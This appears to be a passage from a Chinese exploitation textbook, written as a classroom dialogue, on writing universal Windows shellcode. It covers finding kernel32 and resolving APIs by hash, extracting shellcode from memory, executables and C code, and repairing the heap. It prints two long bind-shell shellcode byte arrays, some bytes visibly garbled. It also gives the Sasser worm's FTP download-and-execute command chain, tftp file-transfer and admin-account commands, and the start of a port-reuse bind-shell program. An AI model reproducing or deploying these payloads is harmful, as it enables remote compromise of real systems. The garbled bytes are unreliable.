mov ecx,[eax+0x3c]
add ecx,eax
cmp word ptr [ecx],'EP' //根据 PE 可执行文件特征查找 KERNEL32.DLL 的基址
je Found //如果符合 MZ 及 PE 头部特征，则认为已经找到，并通过 Eax 返回给调用者
MoveUp:
dec eax //准备指向下一个界起始地址
jmp FindMZ
Found:
nop
```

“之前，eax 中存的是 UnhandledExceptionFilter 函数的指针。我们把前面两段合起来，得到 FindKernelBySEH.cpp（光盘有收录），运行测试一下。”

“在 VC 中用 __asm 关键字嵌入汇编，按 F10 单步调试，到最后一句时，结果如图 6－10。得到 Kernel32 的基址为 0x77E40000，和前面得到的值是一样的。”

　　

“这个方法也很巧妙也！”大家赞叹不已，感叹怎么会有如此天才的人。

“程序就是艺术，不能用语言表达，只能凭心去感受。”老师说道。

“在病毒中，还有种方法也是类似的。原理是：可执行程序都由 Kernel32.dll 中的 CreateProcess 函数来调用，所以病毒先得到堆栈中保存的返回地址，也就是 Kernel32.dll 地址空间的一个地址；然后再使用刚才的方法向上搜索，找到 kernel32 的基址。代码如下：”

```
Mov dword ptr eax, [esp+0x1C] //保存的返回地址，在 kernel32 中
FindMZ:
and eax,0xffff0000 //64k 对齐特征加快查找速度
cmp word ptr [eax],'ZM' //根据 PE 可执行文件特征查找 KERNEL32.DLL 的基址
jne MoveUp
mov ecx,[eax+0x3c]
add ecx,eax
cmp word ptr [ecx],'EP' //根据 PE 可执行文件特征查找 KERNEL32.DLL 的基址
je Found //如果符合 MZ 及 PE 头部特征，则认为已经找到，并通过 Eax 返回给调用者
MoveUp:
dec eax //准备指向下一个界起始地址
jmp FindMZ
Found:
nop
```

“哦，涉及到病毒了，越来越有意思了。”

“呵呵，本是同根生嘛！”

“获得 kernel32 的基址后，我们再用引出表获得 Get 的地址，再获得其他函数的地址，是吗？”同学们问道。

“对！但要注意的是，这个方法是通过搜索异常链表，然后对齐搜索得到 kerner32 的基址。如果溢出利用方式是通过覆盖 SEH，然后 CALL EBX 或 pop pop ret 来改变程序流程，那么 SEH 链已经被我们覆盖，这种方法就会出错。”

“哦！那怎么办？”

“此时，就只能用 PEB 来获得 kerner32 的基址了。”老师有点遗憾的说。“然后再获得函数的地址。”

老师说道，“除了先获取 GetProcAddress 函数地址，再通过 GetProcAddress 函数获取其他函数的地址外。还有一种改进的查找方法，就是直接通过引出表把所有函数的地址都找出来。”

# 6.1.6 HASH 法查找所函数地址

### 6.1.6 HASH 法查找所函数地址

“刚才我们用了多种方法，都是先找到 GetProcAddress 函数的地址，然后通过它找到其他函数的地址。”

“但大家想过没有，既然我们可以获得 GetProcAddress 函数的地址，那当然可用同样的方法获得所有函数的地址啊！”老师问道。

“哦！是啊！GetProcAddress 从 Kernel32.dll 的输出表中搜索；那 send 那些套接字函数从 Ws2_32.dll 的输出表中搜索就 OK 了！”宇强说道。

“哦，是啊，这样也挺方便的！”其他同学也说。

“嗯，而且我们可以在比较函数时再加入 HASH 的思想，缩短查找的代码。”

小知识：HASH

直接音译为“哈希”，也叫做 “散列”。就是把任意长度的输入，通过散列算法变换成固定长度的输出，该输出就是散列值。这种转换是一种压缩映射，散列值的空间通常远小于输入的空间，不同的输入可能会散列成相同的输出，而不可能从散列值来唯一确定输入值。

其数学表述为： h = H(M) 。其中，‘H( )’表示单向散列函数；‘M’表示任意长度明文；‘h’表示固定长度散列值。‘H()’第一要满足单向性，第二是抗冲突性，第三是映射分布均匀性和差分分布均匀性，而 MD5 和 SHA1 可以说是目前应用最广泛的 Hash 算法。

“我们在查找函数名时，不必用真正的函数名来比较，可以设计一个 HASH，只要保证所有函数的 HASH 值不同，那么我们就可用 HASH 值来代替函数名进行查找。”

“哦！使用 HASH 值比用名称有什么好处呢？”PLMM 问道。

“HASH 值是定长的，我们可把 HASH 值放在一个如 EAX 寄存器中，直接进行比较，不用考虑函数名称的长度不同了。”

“哦，是这样啊！”

“好，我们再看一个通过 HASH 法查找所有函数地址再调用的例子。下面是一个别人设计的公式：”

字符[0]循环右移 13 位＋字符[1]) 循环右移 13 位……+最后一个字符

“通过这个 HASH 公式，可得到一些函数名的 HASH 值，如下：”

LoadLibraryA 的 HASH 值是 EC0E4E8E

CreateProcessA 的 HASH 值是 16B3FE72

WSAStartup 的 HASH 值是 3BFCEDCB

WSASocketA 的 HASH 值是 ADF509D9

bind 的 HASH 值是 C7701AA4

listen 的 HASH 值是 E92EADA4

accept 的 HASH 值是 498649E5

closesocket 的 HASH 值是 79C679E7

“根据这种思路，我们得到 BinduseHASH.cpp（光盘有收录）。”

```
unsigned char jeno_bindport19800_sc[] =
    "\xEB\x10\x5B\x4B\x33\xC9\x66\xB9\xd9\x01\x80\x34\x0B\x99\xE2\xFA"
    "\xEB\x05\xE8\xEB\xFF\xFF\xFF\x18\x75\x19\x99\x99\x99\x12\x6D\x71"
    "\xD5\x98\x99\x99\x10\x9F\x66\xAF\xF1\x17\xD7\x97\x75\x71\xFF\x98"
    "\x99\x99\x10\xDF\x91\x66\xAF\xF1\x34\x40\x9C\x57\x71\xCE\x98\x99"
    "\x99\x10\xDF\x95\xF1\xF5\xF5\x99\x99\xF1\xAA\xAB\xB7\xFD\xF1\xEE"
    "\xEA\xAB\xC6\xCD\x66\xCF\x91\x10\xDF\x9D\x66\xAF\xF1\xEB\x67\x2A"
    "\x8F\x71\xAB\x98\x99\x99\x10\xDF\x89\x66\xAF\xF1\xE7\x41\x7B\xEA"
    "\x71\xBA\x98\x99\x99\x10\xDF\x8D\x66\xEF\x9D\xF1\x52\x74\x65\xA2"
    "\x71\x8A\x98\x99\x99\x10\xDF\x81\x66\xEF\x9D\xF1\x40\x90\x6C\x34"
    "\x71\x9A\x98\x99\x99\x10\xDF\x85\x66\xEF\x9D\xF1\x3D\x83\xE9\x5E"
    "\x71\x6A\x99\x99\x99\x10\xDF\xB9\x66\xEF\x9D\xF1\x3D\x34\xB7\x70"
    "\x71\x7A\x99\x99\x99\x10\xDF\xBD\x66\xEF\x9D\xF1\x7C\xD0\x1F\xD0"
    "\x71\x4A\x99\x99\x99\x10\xDF\xB1\x66\xEF\x9D\xF1\x7E\xE0\x5F\xE0"
    "\x71\x5A\x99\x99\x99\x10\xDF\xB5\xAA\x66\x18\x75\x09\x98\x99\x99"
    "\xCD\xF1\x98\x98\x99\x99\x66\xCF\x81\xC9\xC9\xC9\xC9\xD9\xC9\xD9"
    "\xC9\x66\xCF\x85\x12\x41\xCE\xCE\xF1\x9B\x99\xd4\xc1\x12\x55\xF3"
    "\x8F\xC8\xCA\x66\xCF\xB9\xCE\xCA\x66\xCF\xBD\xCE\xC8\xCA\x66\xCF"
    "\xB1\x12\x49\xF1\xFC\xE1\xFC\x99\xF1\xFA\xF4\xFD\xB7\x10\xFF\xA9"
    "\x1A\x75\xCD\x14\xA5\xBD\xAA\x59\xAA\x50\x1A\x58\x8C\x32\x7B\x64"
    "\x5F\xDD\xBD\x89\xDD\x67\xDD\xBD\xA5\x67\xDD\xBD\xA4\x10\xCD\xBD"
    "\xD1\x10\xCD\xBD\xD5\x10\xCD\xBD\xC9\x14\xDD\xBD\x89\xCD\xC9\xC8"
    "\xC8\xC8\xD8\xC8\xD0\xC8\xC8\x66\xEF\xA9\xC8\x66\xCF\x89\x12\x55"
    "\xF3\x66\x66\xA8\x66\xCF\x95\x12\x51\xCE\x66\xCF\xB5\x66\xCF\x8D"
    "\xCC\xCF\xFD\x38\xA9\x99\x99\x99\x1C\x59\xE1\x95\x12\xD9\x95\x12"
    "\xE9\x85\x34\x12\xF1\x91\x72\x90\x12\xD9\xAD\x12\x31\x21\x99\x99"
    "\x99\x12\x5C\xC7\xC4\x5B\x9D\x99\xCA\xCC\xCF\xCE\x12\xF5\xBD\x81"
    "\x12\xDC\xA5\x12\xCD\x9C\xE1\x9A\x4C\x12\xD3\x81\x12\xC3\xB9\x9A"
    "\x44\x7A\xAB\xD0\x12\xAD\x12\x9A\x6C\xAA\x66\x65\xAA\x59\x35\xA3"
    "\x5D\xED\x9E\x58\x56\x94\x9A\x61\x72\x6B\xA2\xE5\xBD\x8D\xEC\x78"
    "\x12\xC3\xBD\x9A\x44\xFF\x12\x95\xD2\x12\xC3\x85\x9A\x44\x12\x9D"
    "\x12\x9A\x5C\x72\x9B\xAA\x59\x12\x4C\xC6\xC7\xC4\xC2\x5B\x9D\x99";
```

“运行，测试，还是成功！如图 6－11。”


“叮铃铃……”铃声响了。

“这是个经典代码——短小但强大。思路和前面没什么两样，只是加入 HASH 搜索的思想。” 老师说道，“下课了，大家利用查看 ShellCode 功能的两种方法跟踪进去，体会一下吧！”

# 6.2 ShellCode 的高效提取技巧

## 6.2 ShellCode 的高效提取技巧

“刚才那个代码你想清楚了吗？聪明才子！”课间时小倩问宇强。

“唉，别这么说嘛，我会不好意思的！”

小倩：“我倒～”

“我跟踪了一下，那个程序的确就是按照老师讲的思路，先找 Kernel32.dll 的基址，然后用 HASH 值，在相关 dll 的引出表中找每个函数的地址。”

“哦，你还厉害嘛！”

“呵呵！剩下的就没什么了，就是我们一般 ShellCode 的编写方法。具体程序可以看看我整理出来的 BindByHASH.cpp。理解时就像老师说的：关键理解思路！”

“哦，等会儿我看看。”

“上课了！”老师在台上说道，大家赶紧坐好。

“大家觉得通用 ShellCode 怎么样？”

“哇！太厉害了，任何系统版本下都可以使用，这下我们轻松多了。”玉波满意的说。

“呵呵，对大家有帮助就好。”老师笑道。

“通用方法是有了，但是老师，还有更累人的事情啊！还要提取 ShellCode 呢！”玉波再次问道，“这么长的代码，让我们一个个抄，太不厚道了吧？”

大家都笑了，老师说，“好好好……我们看看如何简单的提取 ShellCode 吧！”

# 6.2.1 汇编内存提取

### 6.2.1 汇编内存提取

“还是用一个实际例子吧！”老师说，“我们把刚才那个监听后门的通用汇编代码提取成 ShellCode。”

“好吧！如果那个程序一句句的对应着抄下来会死人的，好多啊！”

“呵呵，今天我们用个简单的方法吧！在内存里直接拷贝！”

“嗯？如何直接拷贝？”

“我们用 VC 嵌入汇编，然后按 F10 进入调试状态，这几步大家都轻车熟路了吧！在真正单步进入我们嵌入的汇编代码时，用前面编写汇编代码时教过的方法调出内存窗口，在内存窗口中输入 eip ，内存窗口就会显示从 eip 开始的数据。”

“而此时从 eip 开始的数据，就是我们想要的 ShellCode 代码，如图 6－12。”


“哦？ShellCode 开始时是 55 83 EC 64，内存窗口里也是 55 83 EC 64，真的一样也！”

“那当然，数据又不会从天上掉下来，都是在内存里面的，”老师说，“接下来，我们就可以从内存窗口里拷贝、粘贴。稍微整理一下，然后把空格替换成‘\x’，就轻松得到 ShellCode 了！”

```
unsigned char ShellCode[] = 
    \x55\x83\xEC\x64\x8B\xEC\x64\xA1\x30\x00\x00\x00\x8B\x40\x0C\x8B
    \x70\x1C\xAD\x8B\x78\x08\x8B\x47\x3C\x8B\x54\x07\x78\x03\xD7\x8B
    \x4A\x18\x8B\x5A\x20\x03\xDF\x49\x8B\x34\x8B\x03\xF7\xB8\x47\x65
    \x74\x50\x39\x06\x75\xF1\xB8\x72\x6F\x63\x41\x39\x46\x04\x75\xE7
    \x8B\x5A\x24\x03\xDF\x66\x8B\x0C\x4B\x8B\x5A\x1C\x03\xDF\x8B\x04
    \x8B\x03\xC7\x89\x45\x4C\x6A\x00\x68\x61\x72\x79\x41\x68\x4C\x69
    \x62\x72\x68\x4C\x6F\x61\x64\x54\x57\xFF\x55\x4C\x89\x45\x50\x68
    v70\x65\x00\x00\x68\x74\x65\x50\x69\x68\x43\x72\x65\x61\x54\x57
    \xFF\x55\x4C\x89\x45\x04\x68\x73\x41\x00\x00\x68\x6F\x63\x65\x73
    \x68\x74\x65\x50\x72\x68\x43\x72\x65\x61\x54\x57\xFF\x55\x4C\x89
    \x45\x08\x6A\x65\x68\x64\x50\x69\x70\x68\x4E\x61\x6D\x65\x68\x50
    \x65\x65\x6B\x54\x57\xFF\x55\x4C\x89\x45\x0C\x6A\x65\x68\x65\x46
    \x69\x6C\x68\x57\x72\x69\x74\x54\x57\xFF\x55\x4C\x89\x45\x10\x6A\x\x
    \x00\x68\x46\x69\x6C\x65\x68\x52\x65\x61\x64\x54\x57\xFF\x55\x4C\x\x
    \x89\x45\x14\x68\x65\x73\x73\x00\x68\x50\x72\x6F\x63\x68\x45\x78\x\x
    \x69\x74\x54\x57\xFF\x55\x4C\x89\x45\x18\x68\x33\x32\x00\x00\x68\x\x
    \x57\x73\x32\x5F\x54\xFF\x55\x50\x8B\xF8\x68\x75\x70\x00\x00\x68\x\x
    \x74\x61\x72\x74\x68\x57\x53\x41\x53\x54\x57\xFF\x55\x4C\x89\x45\x\x
    \x1C\x68\x65\x74\x00\x00\x68\x73\x6F\x63\x6B\x54\x57\xFF\x55\x4C\x\x
    \x89\x45\x20\x6A\x00\x68\x62\x69\x6E\x64\x54\x57\xFF\x55\x4C\x89\x\x
    v45\x24\x68\x65\x6E\x00\x00\x68\x6C\x69\x73\x74\x54\x57\xFF\x55\x\x
    \x4C\x89\x45\x28\x68\x70\x74\x00\x00\x68\x61\x63\x63\x65\x54\x57\x\x
    \xFF\x55\x4C\x89\x45\x2C\x6A\x00\x68\x73\x65\x6E\x64\x54\x57\xFF\x\x
    \x55\x4C\x89\x45\x30\x6A\x00\x68\x72\x65\x63\x76\x54\x57\xFF\x55\x\x
    \x4C\x89\x45\x34\xB8\x00\x00\x00\x00\xC6\x45\x38\x00\xC6\x45\x3C\x\x
    \x00\xC6\x45\x40\x00\xC6\x45\x44\x00\xC6\x45\x48\x00\x81\xEC\x90\x\x
    v01\x00\x00\x54\x68\x02\x02\x00\x00\xFF\x55\x1C\x6A\x06\x6A\x01\x\x
    \x6A\x02\xFF\x55\x20\x8B\xD8\x33\xFF\x57\x57\xB8\x02\x00\x03\x3E\x\x
    \x50\x8B\xF4\x6A\x10\x56\x53\xFF\x55\x24\x47\x47\x57\x53\xFF\x55\x\x
    \x28\x6A\x10\x8D\x3C\x24\x57\x56\x53\xFF\x55\x2C\x8B\xD8\x33\xFF\x
    \x47\x57\x33\xFF\x57\x6A\x0C\x8B\xF4\x57\x56\x8D\x45\x3C\x50\x8D\x\x
    \x45\x38\x50\xFF\x55\x04\x57\x56\x8D\x45\x44\x50\x8D\x45\x40\x50\x\x
    \xFF\x55\x04\x81\xEC\x80\x00\x00\x00\x8D\x3C\x24\x33\xC0\x68\x80\x\x
    \x00\x00\x00\x59\xF3\xAB\x8D\x3C\x24\xB8\x01\x01\x00\x00\x89\x47\x\x
    v2C\x8B\x45\x40\x89\x47\x38\x8B\x45\x3C\x89\x47\x3C\x8B\x45\x3C\x
    \x89\x47\x40\xB8\x63\x6D\x64\x00\x89\x47\x64\x8D\x44\x24\x44\x50\x\x
    \x57\x51\x51\x51\x41\x51\x49\x51\x51\x8D\x47\x64\x50\x51\xFF\x55\x\x
    \x08\x81\xEC\x00\x04\x00\x00\x8B\xF4\x33\xC9\x51\x51\x8D\x7D\x48\x\x
    \x57\xB8\x00\x04\x00\x00\x50\x56\x8B\x45\x38\x50\xFF\x55\x0C\x8B\x
    \x07\x85\xC0\x74\x19\x33\xC9\x51\x57\xFF\x37\x56\xFF\x75\x38\xFF\x
    \x55\x14\x33\xC9\x51\xFF\x37\x56\x53\xFF\x55\x30\xEB\xC3\x33\xC9\x\x
    \x51\xB8\x00\x04\x00\x00\x50\x56\x53\xFF\x55\x34\x89\x07\x33\xC9\x
    \x51\x57\xFF\x37\x56\xFF\x75\x44\xFF\x55\x10\xEB\xA4
```

“用教过的方法测试一下，轻松成功！如图 6－13。”


“哇！这么好的方法都不早说！”同学们叫了起来。“我们以前抄的好辛苦啊！”

“呵呵！我是为了大家好，先真正了解系统流程后，再用提高效率的方法。我们再来看一种方法——从 EXE 文件中提取 ShellCode。”

# 6.2.2 可执行文件提取

### 6.2.2 可执行文件提取

“我们得到汇编的程序并测试成功后，就会生成 EXE 可执行文件。”老师说道，“如果是调试版，会在 Debug 目录下；如果是发表版，会在 Release 目录下。如图 6－14。”


“我们用任意一款 16 进制编辑器打开 EXE 文件。我这里用的是 WinHex（光盘有收录），大家可以看到，EXE 的开始是 4D 5A，就是 MZ 标志；在 C0 那排有一个 PE 标志，如图 6－15。”


“我们在 EXE 文件数据中查找，找到 ShellCode 的开头，如这里是 55 83 EC 64，如图 6－16。”


“找到 ShellCode 的开始数据之后，我们将其复制，粘贴出来，也可轻松完成 ShellCode 的提取了。”

“哦！真是好方法啊。但定位 ShellCode 的开始和结束有点麻烦啊！”

“我们可以加入一些标志，比如连续的几个‘0x90’（即 NOP）来表示 ShellCode 的开始和结束。方法是人想出来的，路是人走出来的。”

“好，我们再来看一个更经典的方法——直接利用 C 语言写程序，然后自动提取打印出 ShellCode 来。”

# 6.2.3 C 语言直接提取

### 6.2.3 C 语言直接提取

“直接用 C 语言来写？”

“嗯，说全部用 C 语言来写，也不太准确。”老师说，“应该说是 ShellCode 部分由汇编和 C 语言混合编程。汇编部分主要是完成动态定位函数地址，而 C 语言部分是完成程序的功能流程。整个程序的本质，就是让编译器为我们生成二进制代码，然后在运行时编码、打印，这样就完成了一个模板。”

“大家联想一下内存提取和可执行文件提取，就会发现这三种提取方法都是类似的——都是直接把二进制代码拷贝出来。”

“哦！”

“给大家解释一下混合编程的结构以及流程思路吧！C 语言直接写 ShellCode 的思路，最早也可从 yuange 文章中见到，而 hume 将其发扬光大。”

“混合编程里有 4 个函数：ShellCodes 函数、DecryptSc 函数、PrintSc 函数和 main 函数。”

“在 ShellCodes 函数里面，生成完成功能的 ShellCode，采用的是汇编和 C 语言混合编程。”老师说道，“首先是汇编部分，就是动态获得每个要使用函数的地址；然后用 C 语言来直接调用函数，完成想要的功能。”

“DecryptSc 函数，是生成解码代码 decode 的部分；”

“PrintSc 函数，是直接把合好的 ShellCode 按 16 进制数的形式打印出来。”

“而 main 函数，就是把各个部分组织起来，以自动化的生成 ShellCode 并打印出来。”

“具体来说，main 函数里面先定义要查找的函数名和所在的模块；然后保存 DecryptSc 函数生成的 decode 部分；再把 ShellCodes 函数生成的代码进行编码，粘贴在 decode 后面；最后调用 PrintSc 函数，把最终完成的 ShellCode 打印出来。其流程如图 6－17。”


“其他几个函数都好理解，关键就是 ShellCodes 函数代码部分的生成。”

“ShellCodes 函数分为两大部分，动态获得函数地址就不说了，我们刚才学了几种方法，都是可以的；而高级语言调用函数的部分，hume 采用的是枚举方法执行。”

“函数名称数组和枚举数组对应，增加 API 时只需在相应的.dll 后增加函数名称项，并同步更新 Enum 的索引。调用 API 时直接使用 API_APINAME; 即可。像这样：”

```
API_MessageBeep;
API_MessageBoxA;
API_ExitProcess;
```

“由此可见，用 C 语言编写 ShellCode 需要对代码生成及 C 编译器行为有更多的了解。有些地方处理起来也不是很省力，不过一旦模板写成，以后写起来或写复杂的 ShellCode 时，就省力多了。”

“我们来测试一下吧！”大家跃跃欲试。

“程序大家可参看 GetShellCodeByC.cpp（光盘有收录）。注意了，我们需要对工程正确的配置才能达到效果。”老师提醒道，“我们要选择 release 版编译，并去掉优化选项。”

“优化？如何去掉？”

“打开菜单下的‘工程→设置’对话框，在‘C/C++’选项卡下删除‘/02’项，如图 6－18。”


“点 OK，设置完毕。我们运行，就可弹出测试对话框，并且得到打印好的 ShellCode。如图 6－19。”


“哇！好方便啊！”

“是啊！大家下来自己测试一下，对应着改变 API 函数的名称和枚举值，测试完成一下其他的功能。”老师说道。

“好哩！真是太有趣了！”

“大家可要注意整理文档，记下方法。”老师说道，“好记性不如烂笔头，多学多记总有好处的。”

# 6.3 ShellCode 的高级功能

## 6.3 ShellCode 的高级功能

“通用性可以了，提取也方便了。我们现在想给 ShellCode 添加什么功能就可添加什么功能了。哈哈，太爽了！”玉波说道。

“我们还可在 ShellCode 里面监听、嗅探、记录密码呢！”古风说。

“我们可以写一个万能的 ShellCode 啦！”宇强也附和着。

“当然可以，但功能越强，代码就越长。同 ShellCode 需要尽量短小是矛盾的。”老师比喻道，“就如女生们都想瘦，但穿了太多的衣服，就怎么也瘦不下去了。”

“哦！怪不得有‘要风度不要温度’一说啊！”宇强说这句话时转向旁边的小倩。

“啥嘛！认真听课！”

“但有一些功能是 ShellCode 里面应该考虑到的，我们讨论几个常用的技巧吧！”

# 6.3.1 恢复堆链表

### 6.3.1 恢复堆链表

“第一个技巧就是恢复堆链表。”

“我们在堆溢出利用时说过，”老师说道，“需要把堆链表进行恢复，才能运行一些 ShellCode。”

“恢复的思路就是：找到系统中堆结构的开始地方，把覆盖后的堆块还给系统。”

“在这里，我们没有必要详细讲解 Windows 的堆结构了。直接给出恢复堆链表处理代码和解释吧！”

```
//XP edii＋74 是下一堆块管理结构，如果是 Win2000，就是 esi＋0x4C
mov edx, dword ptr[edi+74]
// 把 ebx 赋为 0x18
push 0x18
pop ebx
// 得到 TEB，fs:[18]和 fs:[0]都是指向 TEB 的
mov eax, dword ptr fs:[ebx]
//从 TEB＋0x30 得到 PEB
mov eax, dword ptr[eax+0x30]
// PEB＋0x18 为默认堆地址指针
mov eax, dword ptr[eax+0x18]
//把 TotalFreeSize 的值给堆管理结构的第一部分 size
add al,0x28
mov si, word ptr[eax]
mov word ptr[edx],si
//把堆管理结构第二部分 sizeprevious size 设成 8
inc edx
inc edx
mov byte ptr[edx],0x08
//设置堆管理结构的其他部分
inc edx
mov si, word ptr[edx]
xor word ptr[edx],si
inc edx
inc edx
mov byte ptr[edx],0x14
inc edx
mov si, word ptr[edx]
xor word ptr[edx],si
inc edx
inc edx
// 堆基址+0x178 的地方为 FreeLists 结构
add ax,0x150
// 让 FreeLists[0].Flink 和 FreeLists[0].Blink 都指向堆管理结构
mov dword ptr[eax],edx 
mov dword ptr[eax+4],edx
//让堆管理结构也指向 FreeLists，完成堆的恢复
mov dword ptr[edx],eax
mov dword ptr[edx+4],eax
```

“至于 Windows 堆结构的讲解，以后有机会我们再讲吧！”老师说道，“现在我们直接拿来用。在一般的 ShellCode 前加上这段代码，就可恢复覆盖掉的堆结构。”

# 6.3.2 TTP 和 FTP 客户端——冲击波/震荡波传播的实现

### 6.3.2 TTP 和 FTP 客户端——冲击波/震荡波传播的实现

“而第二个技巧，就是考虑蠕虫病毒们的传播技巧。”

“Nimda、冲击波以及震荡波蠕虫，都曾给网络带来巨大的破坏，其传播速度之快，除了很多机器系统本身具有漏洞之外，还有个重要的原因：蠕虫具有很强的在网络上自我复制和传输的能力。”

大家都认真的听着。

“我们这里只分析它们的传播方法，不教大家如何写蠕虫病毒！”老师强调说，“让大家知道怎样更好的防范。”

“嗯，知道了，老师接着说吧！”

“Nimda 和冲击波在网络上的自我复制和传输，是利用 TFTP 来实现的；而震荡波，则是进行了改进，用 FTP 实现的。”

“让我们来看看 TFTP 是如何工作的。以下载文件为例，在开始工作时，客户发送一个读请求给服务器，如果请求的文件能被读取，TFTP 服务器就返回一个块编号为 1 的数据分组；TFTP 客户发送一个块编号为 1 的 ACK；TFTP 服务器随后发送块编号为 2 的数据；TFTP 客户发回块编号为 2 的 ACK。重复这个过程，直至这个文件传送完毕。”

小知识：TFTP 是基于 UDP 的，其数据报有四种类型

第一种：客户发出的是读或写请求，含有文件名和模式。操作码是 1 或 2。

第二种：服务器发送的数据，含有块编号和 512 字节的数据。操作码是 3。

第三种：客户发的回应，含有收到的块编号。操作码是 4。

第四种：错误信息，含有差错码和差错信息。操作码是 5。

其类型如图 6－20，我们可据此编写出 TFTP 的服务器。


“好了，说了这么多，在 Windows 中，我们利用现成的 TFTP 服务程序来实现上传和下载文件是很简单的。TFTPD32.exe 是个很好的 TFTP 服务器，由 Ph.Jounin 编写。直接运行 TFTPD32.exe，就可建立一个 TFTP 服务器。可以选择要绑定的 IP 和目录文件夹，其运行界面如图 6－21。”


“而 TFTP 的客户端是 Windows 自带的。在命令行下直接运行 TFTP –i IP Get (Put) FileName 就可在本机执行 TFTP 客户端，以供和服务器传输文件。如图 6－22，在 IP 为 192.168.1.166 的 TFTP 服务器上下载了一个名为 ww.txt 的文件。”


“这招常被黑客使用：他们在自己的主机上建一个 TFTP 服务器，进入别人的主机后，直接输 tftp –i 自己 ip Get (Put) FileName 就可实现文件上传/下载，如下载自己感兴趣的东东，或上传一个木马之类的。”

“然而在 Nimda 和冲击波等病毒中，它们用的是谁的 TFTP 服务器呢？肯定不会是用 TFTPD32 建立的服务器吧！那是谁建的服务器呢？”同学们问道。

“嗯，答案就是：病毒自己！在病毒程序中，自己实现了一个 TFTP 服务器！”

“哦？”

“冲击波运行时，分成了两个线程。”

“其中一个线程功能是：在本机绑定并监听 69 端口，建立一个 TFTP 服务器等待别的机器来连接。如果有其他主机连接这个服务器，则会把 msblast.exe 文件传送过去。”

“另一个就是攻击线程。它向其他主机的 135 端口发送攻击代码——ShellCode，如果其他主机有系统漏洞，就会执行攻击代码。而它的攻击代码是精心构造的，所完成的功能就是执行 TFTP -i ip GET msblast.exe 去下载冲击波程序，下载完毕后并且执行。”

“哦，冲击波的 ShellCode 就只是 TFTP -i ip GET msblast.exe 这句话啊？那和我们的 ShellCode 比起来，差远了也！”古风说道。

“呵呵！是的，通过改 ShellCode 和覆盖地址，可使它的功能更通用、强大。”老师说道，“我们再来看看震荡波，它是通过 FTP 来传播的。”

“FTP 和 TFTP 相比较，功能更加完善，不仅可完成上传和下载文件的功能，还可列出目录，可进行用户名和密码的认证，并且可对文件传送与存储方式进行选择等。在 Windows 下，有许多可以建立 FTP 服务器的软件，比如 Serv_U、WP_FTP 等，还可安装 IIS 服务来建立 FTP 服务器等。”

“震荡波运行时，也是分成了多个线程。其中一个是在本机的 5554 端口上，产生一个小型的 FTP 服务器！震荡波就利用这个服务器来向其他有漏洞的主机发送蠕虫本身文件！”

“接下来，震荡波向其他主机发送攻击代码，如果对方主机有漏洞，则会在 9996 端口绑定一个 Shell，并且会执行以下命令： echo off&echo open [infecting machine's IP] 5554>>cmd.ftp&echo anonymous>>cmd.ftp&echo user&echo bin>>cmd.ftp&echo get [rand]_up.exe>>cmd.ftp&echo bye>>cmd.ftp&echo on&ftp -s:cmd.ftp&[rand]i_up.exe&echo off&del cmd.ftp&echo on ”

“我对上面的命令解释一下。大家知道，‘&’前后的命令在 DOS 下会依次执行。比如 net use ww /add & net localgroup administrators ww /add ，就会先添加一个名为‘ww’的用户，然后再将‘ww’加入管理员组。”

“这里震荡波先使用重定向符号‘>>’向 cmd.ftp 文件中输入：”

```
　　open [infecting machine's IP] 5554 //连接 5554 端口，即进入小型 FTP 服务器
　　anonymous //用户名，为匿名
　　user //密码
　　bin //二进制模式
　　get [rand]_up //接收震荡波蠕虫的文件！！
　　bye //退出 FTP 服务器
```

“然后再用经典的：”

```
ftp -s:cmd.ftp //即用 cmd.ftp 内的参数，执行 ftp，完成下载★
```

“最后执行震荡波蠕虫文件和删除 cmd.ftp：”

```
[rand]i_up.exe del cmd.ftp★
```

“这样，就完成了震荡波从一台主机向另一台主机的传播！”

“哦，原来是这样啊！还是比较简单啊！”

“呵呵，大家经过这半期的学习，应该能轻松写出比他们更好的功能吧？”

“嗯，是啊！原来传说中的冲击波/震荡波病毒也没多了不起啊！”古风自信的说。

“老师，你说他们写冲击波/震荡波干嘛？只是传播一下么？对作者什么用处也没有？”玉波问道。

“他们只是想表达一种表现欲！希望别人佩服自己的能力。”老师说道，“大家可千万不要这样啊！这可是违法国家法律的行为。”

# 6.3.3 突破防火墙

### 6.3.3 突破防火墙

“而第三个技巧，就是考虑如何突破防火墙和一些限制环境了！”

“我们的反连 ShellCode 不是可以起到突破防火墙的作用吗？”玉波问道。如图 6－23。


“是的，但那样需要我们攻击方在公网上，有一个公网的 IP 地址。如果攻击方在内网，那目标机就反连不上来，这种方式就行不通了，如图 6－24。”


“哇！是啊！这种情况下如何突破呢？”宇强也迷糊了。

“呵呵！现在我们既不能从攻击机发起连接，因为会被目标机的防火墙阻断；也不能从目标机发起连接，因为到不了攻击机的内网。”

“啊！岂不是路都堵死了？”小倩说道。

“大家不要在一条路上想死了，要换一个思路。”老师说道。“我们既然可以给远程机器发送攻击代码，那么它们之间应该是连接的！而远程机器间的连接通信一般都是通过 Socket 来完成的。”

“哦！我们利用原来的连接？”宇强叫了出来。

“对，如果我们的 ShellCode 可以找到发送攻击代码的那条通路的 Socket，就可直接使用以前那个连接 Socket，不用再新建端口了！如图－25。”


“哦！很巧妙啊！”台下感叹道。

“另外，服务器总要开些端口，我们也可把 Shell 的端口开在防火墙打开的端口上。”老师说，“通过端口复用来突破防火墙！”

“比如，对方开放了 FTP 服务，那么防火墙就需要打开 21 端口。我们的 ShellCode 就可复用目标机的 21 端口，在对方的 21 端口上绑定一个 Shell；而攻击机通过连接 21 端口来获得 Shell。如图 6－26。”


“我们来看看复用端口的具体实现吧！程序如下：”

```
/*
绑定指定 21 端口，绑定 cmd.exe
*/
#include <winsock2.h>
#include <string.h>
#include <stdio.h>
#include <tchar.h>
#include <process.h>
#include <io.h>
#pragma comment(lib, "ws2_32")
int main(int argc, char **argv) 
{ 
    //启动 winsock
    WSAData wsa; 
    WORD wVersion;
    int ret;
    wVersion = MAKEWORD(2, 0); 
    if(WSAStartup(wVersion, &wsa) != 0)
    { 
        return -1;
    }
    //下面获取本机 IP 地址 
    char szHostName[128];
    char *pszIp;
    HOSTENT *pHost = NULL;
    if(gethostname(szHostName, 128)==0)
    { 
        pHost = gethostbyname(szHostName);
        if(pHost != NULL)
        {
            pszIp = inet_ntoa( *(in_addr*)pHost->h_addr_list[0] ); 
        }
        else 
        {
            printf("get host ip fail!\n");
            return -1;
        }
    }
    else
    {
        printf("can't find host name!\n");
        return -1;
    }
    //创建服务端套接字
    SOCKET ss; 
    if((ss = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP)) == SOCKET_ERROR) 
    { 
        printf("error!socket failed!\n"); 
        return -1; 
    } 
